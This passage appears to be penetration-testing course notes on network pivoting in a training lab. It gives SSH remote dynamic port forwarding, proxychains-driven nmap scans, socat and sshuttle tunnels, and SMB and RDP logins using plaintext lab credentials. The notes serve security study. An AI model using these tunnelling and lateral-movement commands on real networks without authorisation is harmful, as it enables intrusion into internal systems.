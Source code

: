 ```postgres
\l
```
### 18.3.4. SSH Remote Dynamic Port Forwarding
#### Make the SSH connection from the remote dynamic port forward
```Shell
ssh -N -R 9998 root@192.168.45.155
```
#### Check status of connection
```Shell
ss -tupanl
```
#### Set proxychains.conf file to pivot over socks5 on 127.0.0.1 and port 9998
```
socks5 127.0.0.1  9998
```
#### Run nmap over proxychains
```Shell
proxychains nmap -vvv -sT -p 9000-9100 -Pn -n 10.4.203.64
```
### 18.3.5. Using sshuttle

**Requires root privileges on the SSH client and Python3 on the SSH server**
#### Forwarding port 2222 on CONFLUENCE01 to port 22 on PGDATABASE01
```Shell
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```
#### Running sshuttle from our Kali machine, pointing to the forward port on CONFLUENCE01
```Shell
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```
#### Connecting to the SMB share on HRSHARES, without any explicit forwarding
```Shell
smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
## 18.4. Port Forwarding with Windows Tools
### 18.4.1. ssh.exe
#### Starting SSH server on the Kali machine
```Shell
sudo systemctl start ssh
```
#### Connecting to the RDP server on MULTISERVER03 using xfreerdp
```Shell
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64
```
#### Finding ssh.exe on MULTISERVER03
```cmd.exe
where ssh
```
#### The version of OpenSSH client that is bundled with Windows is higher than 7.6.
```Shell
ssh.exe -V
```